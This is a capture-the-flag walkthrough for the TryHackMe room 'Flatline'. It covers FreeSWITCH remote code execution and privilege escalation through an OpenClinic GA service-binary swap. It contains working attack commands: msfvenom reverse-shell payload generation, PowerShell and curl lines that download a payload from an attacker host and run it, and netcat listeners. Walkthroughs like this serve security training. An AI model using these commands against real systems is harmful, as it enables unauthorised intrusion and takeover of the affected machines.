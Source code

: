 ```yaml
---
title: Walkthrough - Flatline
published: true
---
```


Tags: Security, RCE, Broken Permissions.
Description: How low are your morals?
Difficulty: Easy
URL: [https://tryhackme.com/room/flatline](https://tryhackme.com/room/flatline)

* * *

## Notes

- `nmap -Pn -sS -T4 -p- 10.10.71.193 -vvv`

```
PORT     STATE SERVICE       REASON                                                                                          
3389/tcp open  ms-wbt-server syn-ack ttl                                                
8021/tcp open  ftp-proxy     syn-ack ttl 125 
```

- `sudo nmap -sC -sV -Pn -sS -O 10.10.71.193 -p3389,8021`

```
PORT     STATE SERVICE          VERSION
3389/tcp open  ms-wbt-server    Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: WIN-EOM4PK0578N
|   NetBIOS_Domain_Name: WIN-EOM4PK0578N
|   NetBIOS_Computer_Name: WIN-EOM4PK0578N
|   DNS_Domain_Name: WIN-EOM4PK0578N
|   DNS_Computer_Name: WIN-EOM4PK0578N
|   Product_Version: 10.0.17763
|_  System_Time: 2022-08-25T13:37:09+00:00
| ssl-cert: Subject: commonName=WIN-EOM4PK0578N
| Not valid before: 2022-08-24T13:29:23
|_Not valid after:  2023-02-23T13:29:23
|_ssl-date: 2022-08-25T13:37:11+00:00; 0s from scanner time.
8021/tcp open  freeswitch-event FreeSWITCH mod_event_socket
```

searching exploitdb we find a freeswitch exploit that works.

- `python3 freeswitch-exploit.py 10.10.71.193 systeminfo`

Now we can create a payload for the target system `msfvenom -p windows/shell_reverse_tcp LHOST=10.2.127.225 LPORT=6666 -f exe > shell.exe`

- start simple webserver `python3 -m http.server 80` and start listener `rlwrap nc -nvlp 6666`
- upload and start shell `python3 freeswitch-exploit.py 10.10.71.193 "powershell.exe Invoke-WebRequest -Uri http://10.2.127.225/shell.exe -OutFile ./shell.exe && .\shell.exe"`

![0xskar](/assets/flatline01.png)

* * * 

## What is the content of user.txt?

![0xskar](/assets/flatline02.png)

* * * 

## What is the content of root.txt?

We find OpenClinic GA on the system `searchsploit -m windows/local/50448.txt`. This escalation works by letting a low privilege account being able to rename lysqld or tomcat8.exe files located in bin folders and replacing with a malicious file that can connect back to due the service running as local system. we will try replacing the exe here `\mariadb\bin\mysqld.exe`. 

1. Generate malicious .exe on attacking machine
    `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.102 LPORT=4242 -f exe > /var/www/html/mysqld_evil.exe`

2. Setup listener and ensure apache is running on attacking machine
    `nc -lvp 4242`
    

3. Download malicious .exe on victim machine
    type on cmd: `curl http://192.168.1.102/mysqld_evil.exe -o "C:\projects\openclinic\mariadb\bin\mysqld_evil.exe"`

4. Overwrite file and copy malicious .exe.
    `Renename C:\projects\openclinic\mariadb\bin\mysqld.exe > mysqld.bak`
    `Rename downloaded 'mysqld_evil.exe' file in mysqld.exe`

5. Restart service

6. Reverse Shell on attacking machine opens

![0xskar](/assets/flatline03.png)

* * * 

